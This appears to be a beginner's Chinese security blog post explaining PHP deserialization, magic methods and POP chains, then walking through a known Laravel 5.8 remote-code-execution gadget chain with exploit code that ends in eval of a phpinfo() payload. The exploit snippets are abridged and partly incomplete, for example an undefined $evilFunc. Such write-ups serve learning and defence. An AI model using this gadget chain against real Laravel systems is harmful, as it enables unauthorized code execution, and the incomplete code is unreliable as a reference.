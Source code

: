 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      PHP序列化与反序列化的学习 # 标题 
subtitle:   以Laravel5.8 RCE分析为例 #副标题
date:       2019-11-21              # 时间
author:     LessterWong             # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - PHP
    - Web
    - Security
---
```


## 前言
>好像是我的第一篇博客呢~开心~

今天是个特殊的日子~小白王一帆正式开始了网络安全相关知识的学习。我会及时完成相关的学习任务并定期更新我的博客，为了更快成为一个合格的hacker而努力奋斗！

## PHP的反序列化相关知识

### PHP中类的构成
类成员由属性和方法构成，类属性存在于data_segment，类方法存在于code_segment。
对于一个类来说，占空间的部分只有类的属性。
所以我们有可能对类的属性进行一定的操作。

### 序列化与反序列化的定义
序列化定义：所有php里面的值都可以使用函数 serialize()来返回一个包含字节流的字符串来表示，而 unserialize()函数能够重新把字符串便会php原来的值。**序列化一个对象将会保存对象的所有变量，但是不会保存对象的方法，指挥保存类的名字**。

反序列化定义：为了能够unserialize()一个对象，这个对象的类必须已经定义过。如果序列化类A的一个对象，将会返回一个跟类A相关，而且包含了对象所有变量值的字符串。 **如果要想在另外一个文件中解序列化一个对象，这个对象的类必须在解序列化之前定义**，可以通过包含一个定义该类的文件或使用函数spl_autoload_register()来实现。

序列化操作只是保存对象(不是类)的变量，不保存对象的方法，因此其实反序列化的主要危害在于我们可以控制对象的变量来改变程序执行流程从而达到我们最终的目的。

### POP链
POP 链的构造是寻找程序当前环境中**已经定义了**或者**能够动态加载的对象**中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，当然进行反序列化的数据能够被用户输入所控制。

序列化攻击更多的是在**魔术方法**中出现一些利用的漏洞，因为自动调用从而触发漏洞。但如果关键代码不在魔术方法中，而是在一个类的普通方法中。这时候可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来。

例子详情可见[https://www.cnblogs.com/iamstudy/articles/php_object_injection_pop_chain.html](https://www.cnblogs.com/iamstudy/articles/php_object_injection_pop_chain.html) 将一个正常的调用改变，过程是构造pop链来调用其它类中的同名方法，从而达到特殊目的。

下面是自动调用的一些魔术方法：

| 函数名 | 函数功能 |
| ------ | ------ |
| __wakeup() | 使用unserialize时触发 |
| __sleep() | 使用serialize时触发 |
| __destruct() | 对象被销毁时触发 |
| __call() | 在对象上下文中调用不可访问的方法时触发 |
| __callStatic() | 在静态上下文中调用不可访问的方法时触发 |
| __get() | 用于从不可访问的属性读取数据 |
| __set() | 用于将数据写入不可访问的属性 |
| __isset() | 在不可访问的属性上调用isset()或empty()触发 |
| __unset() | 在不可访问的属性上使用unset()时触发 |
| __toString() | 把类当作字符串使用时触发 |
| __invoke() | 当脚本尝试将对象调用为函数时触发 |

关于魔术方法的详细资料参见[https://www.php.net/manual/zh/language.oop5.magic.php](https://www.php.net/manual/zh/language.oop5.magic.php)

目前全部理解有一丢丢困难，在以后的学习过程中一步一步来吧。

### Laravel 5.8 RCE分析
>源地址：[https://xz.aliyun.com/t/6059](https://xz.aliyun.com/t/6059)

这里就不按照原网址中的推导过程一步一步分析了，来主要分析一下在整个反序列化过程中的重点步骤以及其思路。

#### POP链的构造方法

我们已经知道，当关键代码在一个类的普通方法中时，我们可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来。在这个例子中我们就是将PendingBroadcast这个类用__destruct方法构建出了一个evil类，用来实现我们的目的。

```
namespace Illuminate\Broadcasting {
	class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($evilCode)
        {
            $this->events = new \Illuminate\Bus\Dispatcher();
            $this->event = new BroadcastEvent($evilCode);
        }
    }

  class BroadcastEvent {
        public $connection;
        function __construct($evilCode)
        {
            $this->connection = $evilCode;
        }
    }
}
```

我们在这里生成了这样的一个“幻象”，用来通过反序列化的操作代替之前的 *boardcasting* 类。随后就可以对这个“幻象”进行操作从而实现我们的目的啦。

#### 危险函数的寻找

在这里我们需要找到源代码中可能出现的漏洞，并在我们的构造过程中加以利用，使得原先的代码获得我们希望它获得的错误信息。

第一个危险函数是`call_user_func`，它会以$this->queueResolver为参数，而这个部分是可控的。因此我们可以在这个部分做一些手脚：


```
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = $evilFunc;
        }
    }
}
```

我们手动将$this->queueResolver指向了$evilFunc，从而完成了第一步。

第二个危险函数则是`eval`，我们可以通过绕过`if`判断的方式来强行改变`MockDefinition`的实例化对象。于是，`Mockery\Generator\MockConfiguration` 中，让 getName() 返回一个不存在的类名，最终执行 `eval("?>" . $definition->getCode())`。这样就可以实现 RCE了。

构建出剩余的exp：

```
namespace Mockery\Loader {
    class EvalLoader {}
}
namespace Mockery\Generator {
    class MockDefinition {
        protected $config;
        protected $code;
        function __construct($evilCode)
        {
            $this->code = $evilCode;
            $this->config = new MockConfiguration();
        }
    }
    class MockConfiguration {
        protected $name = 'abcdefg';
    }
}

namespace {
  $code = "<?php phpinfo(); exit; ?>";
  $exp = new \Illuminate\Broadcasting\PendingBroadcast($code);
  echo serialize($exp);
}
```

最后就可以构造出输出结果，实现我们的越权操作啦~

## 总结

通过POP链，我们使用反序列化手段，利用了一些危险函数，成功完成了我们的目标。这是我第一次跟下来整个操作流程，可喜可贺~

但是要我自己做还是有些难度的。。。绕开`if`判断的手段比较精妙，`call_user_func`的漏洞要我自主发现也是很难的任务。希望以后能够积累经验，从而能够自主实现某一目标~

最后，输出结果是怎么构造的还不是太清楚，在以后的学习过程中慢慢了解吧。
